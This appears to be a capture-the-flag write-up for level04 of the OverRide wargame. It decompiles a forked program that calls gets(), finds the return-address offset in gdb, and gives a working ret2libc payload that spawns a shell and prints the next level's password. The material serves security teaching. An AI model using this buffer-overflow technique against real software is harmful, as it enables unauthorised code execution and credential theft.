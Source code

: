 # Level04
## Code
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/types.h>

int main(int argc, const char **argv, const char **envp)
{
  int stat_loc; 
  char s[128]; 
  int v6;
  int v7;
  int v8;
  pid_t pid;

  pid = fork();
  memset(s, 0, sizeof(s));
  v8 = 0;
  stat_loc = 0;
  if ( pid )
  {
    do
    {
      wait(&stat_loc);
      v6 = stat_loc;
      if ( (stat_loc & 0x7F) == 0 || (v7 = stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      v8 = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( v8 != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(s);
  }
  return 0;
}
```
## Explanation
- On this level, we can see a call to `gets()` that we know is a function we can exploit to overflow a buffer.

- But the specificity of this level is that there is a call to fork(), the child process does the call to `gets()` whereas the parent monitors the child to make sure it doesn't try to call `exec()`.

- Even though the program prints a message about shellcode, we thought the easiest solution was a ret2libc.

- First step : get the offset of the return address to know how many bytes we should give our buffer before writing the address of `system()` and its argument:

```
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 2716]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2716]
0x41326641 in ?? ()
```

- Here we use the `set follow-fork-mode child` command in gdb to track the child process instead of the parent, and we overflow our buffer to check the offset of the return address. https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ gives us an offset of 156.

- Now, we need to implement our ret2libc by giving our buffer after 156 random bytes the address of system(), as well as the address of the needed argument : /bin/sh.

- To find these, we can use gdb again :

```
Breakpoint 1, 0x080486cd in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

- Now, we have all the info we need, all that's left to do is to craft our payload, without forgetting to insert the return address of the call to system() between the address of the function itself and its argument (the address of the string /bin/sh). We could have put the address of exit() to make things cleaner, but actually we don't care if our program quits in a dirty way, all we want is starting a shell.

## Exploit

```
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"' ; cat) | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN


```
